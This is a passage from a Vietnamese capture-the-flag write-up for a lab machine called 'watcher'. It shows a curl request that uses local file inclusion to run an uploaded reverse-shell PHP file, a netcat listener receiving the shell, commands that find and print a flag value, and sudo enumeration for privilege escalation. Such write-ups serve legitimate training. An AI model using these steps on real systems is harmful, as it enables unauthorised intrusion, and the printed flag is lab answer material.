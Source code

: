 Truy cập RCE với web 

```python
┌──(kali㉿kali)-[~]
└─$ curl http://10.10.80.186/post.php?post=../../../home/ftpuser/ftp/files/revshell.php
```

Quay lại listener và tôi có shell

```python
┌──(root㉿kali)-[/home/kali]
└─# nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.8.105.194] from (UNKNOWN) [10.10.80.186] 54208
Linux watcher 4.15.0-128-generic #131-Ubuntu SMP Wed Dec 9 06:57:35 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 10:45:44 up 54 min,  0 users,  load average: 0.00, 0.00, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (942): Inappropriate ioctl for device
bash: no job control in this shell
www-data@watcher:/$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@watcher:/$ 
```

Bây giờ thì việc tìm các flag sẽ đơn giản hơn. Với flag số 3 tôi có thể dùng cách sau

```python
www-data@watcher:/home$ find / -type f -name flag_3.txt 2>/dev/null
find / -type f -name flag_3.txt 2>/dev/null
/var/www/html/more_secrets_a9f10a/flag_3.txt
www-data@watcher:/home$ cat /var/www/html/more_secrets_a9f10a/flag_3.txt
cat /var/www/html/more_secrets_a9f10a/flag_3.txt
FLAG{lfi_what_a_guy}
www-data@watcher:/home$ 
```

## Privilege escalation

### Flag 4

Tiếp tục phân tích máy này bằng các lệnh đơn giản, tôi có `sudo -l`

```python
www-data@watcher:/tmp$ sudo -l
sudo -l
Matching Defaults entries for www-data on watcher:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on watcher:
    (toby) NOPASSWD: ALL
```
